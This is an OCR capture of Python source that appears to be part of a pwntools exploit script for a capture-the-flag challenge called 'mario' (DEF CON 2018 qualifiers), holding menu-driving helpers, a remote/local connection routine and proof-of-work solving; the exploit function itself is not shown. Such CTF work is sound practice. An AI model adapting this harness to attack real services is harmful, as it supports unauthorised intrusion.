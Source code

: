 ```python

def cook(msg):
    g.sendlineafter('Choice: ', 'C')
    g.sendlineafter('explain: ', msg)


def order(ingredients):
    g.sendlineafter('Choice: ', 'O')
    g.sendlineafter('pizzas? ', '1')
    g.sendlineafter('ingredients? ', str(len(ingredients)))
    for i, ingredient in enumerate(ingredients, 1):
        g.sendlineafter('#%d: ' % i, ingredient)


def admire():
    g.sendlineafter('Choice: ', 'A')


def login(name):
    g.sendlineafter('Choice: ', 'L')
    g.sendlineafter('name? ', name)


def logout():
    g.sendlineafter('Choice: ', 'L')


def create_user(name):
    g.sendlineafter('Choice: ', 'N')
    g.sendlineafter('name? ', name)


def do_connect():
    global g
    if args.REMOTE:
        g = connect('83b1db91.quals2018.oooverflow.io', 31337)
        do_pow()
    else:
        g = process('./mario')


def do_pow():
    g.recvuntil('Challenge: ')
    chall = g.recvuntil('\nn: ', drop=True)
    n = int(g.recvuntil('\nSolution: \n', drop=True))
    info("Computing POW: %r, %d", chall, n)
    g.sendline(str(solve_pow(chall, n)))


if __name__ == '__main__':
    while True:
        exploit()

```
